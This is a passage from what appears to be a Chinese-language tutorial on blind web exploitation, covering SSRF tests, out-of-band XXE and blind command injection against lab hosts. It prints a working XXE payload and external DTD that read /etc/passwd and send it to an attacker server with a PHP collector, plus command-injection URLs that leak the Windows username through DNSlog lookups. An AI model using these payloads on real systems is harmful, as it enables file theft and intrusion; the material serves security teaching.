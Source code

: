 ```php
python3 -m http.server 4545
```
[http://172.16.29.2/ssrf_test.php?url=http://172.16.29.1:4545](http://172.16.29.2/ssrf_test.php?url=http://172.16.29.1:4545)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627011927228-dc71a133-b743-44db-83a8-7847879faffa.png#align=left&display=inline&height=136&margin=%5Bobject%2Object%5D&name=image.png&originHeight=272&originWidth=1076&size=19631&status=done&style=none&width=538)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627011943684-3ba6d898-3620-4c3f-ade8-803b021288c7.png#align=left&display=inline&height=98&margin=%5Bobject%2Object%5D&name=image.png&originHeight=196&originWidth=1276&size=53498&status=done&style=none&width=638)

## 4、XXE无回显
因为XML是用来存储传输数据的，除了确实是业务需要，否则开发不可能会输出内容，也就是说你确实读取到了文件内容，但是没办法看到。XXE无回显问题当然也是可以通过在域名前面放入查询出的内容，将数据通过dns日志记录下来。
XXE虽然不是通过DNSlog，但是也同样是外带数据。
流程如下：
在受害者网站中，我们通过请求攻击者VPS上的1.xml文件，文件内容为将某数据放在GET传参中去访问2.php。然后2.php中的内容为保存GET传参的数据，将数据放入到3.txt中。
具体文件内容放在下面，里面的IP地址应该为攻击者的IP地址，这3个文件也是放在攻击者VPS上。
1.xml
```xml
<!ENTITY% all "<!ENTITY &#x25; send SYSTEM 'http://攻击者的IP地址/2.php?id=%file;'>">%all;
```
2.php
```php
<?php file_put_contents("3.txt",$_GET["id"],FILE_APPEND);?>
```
3.txt
```php
内容空
```


payload：
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % remote SYSTEM"http://服务器IP地址/xxe/1.xml">
%remote;
%send;
]>
```
## 5、命令执行无回显
简单的命令执行站点
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505161034-780f4d5e-9f34-4707-a863-eafbd9d39650.png#align=left&display=inline&height=97&margin=%5Bobject%2Object%5D&originHeight=162&originWidth=520&status=done&style=none&width=312)
输入任何命令都无回显
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505161304-f8990d48-cbc4-4e55-8e44-d70081631de0.png#align=left&display=inline&height=102&margin=%5Bobject%2Object%5D&originHeight=216&originWidth=876&status=done&style=none&width=415)
### 5.1 Dnslog判断漏洞存在
[http://127.0.0.1/test_blind/exec.php?cmd=ping+lhg3du.dnslog.cn](http://127.0.0.1/test_blind/exec.php?cmd=ping+lhg3du.dnslog.cn)
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505161596-6adcbdeb-489e-4552-be7c-a2a20628eaa6.png#align=left&display=inline&height=136&margin=%5Bobject%2Object%5D&originHeight=307&originWidth=940&status=done&style=none&width=415)
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505161819-5b984f68-02b5-49b7-94b5-73127adb26da.png#align=left&display=inline&height=190&margin=%5Bobject%2Object%5D&originHeight=479&originWidth=1046&status=done&style=none&width=415)
### 5.2Dnslog外带数据
#### 5.2.1 获取windows用户名
```http
http://127.0.0.1/test_blind/exec.php?cmd=ping+%USERNAME%.io5a5i.dnslog.cn
```
![](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612505162343-fd422547-5db2-45b0-8264-c6a8b4324b2d.png#align=left&display=inline&height=163&margin=%5Bobject%2Object%5D&originHeight=430&originWidth=1093&status=done&style=none&width=415)
windows常用变量：
```
//变量                     类型       描述
//%ALLUSERSPROFILE%        本地       返回“所有用户”配置文件的位置。
```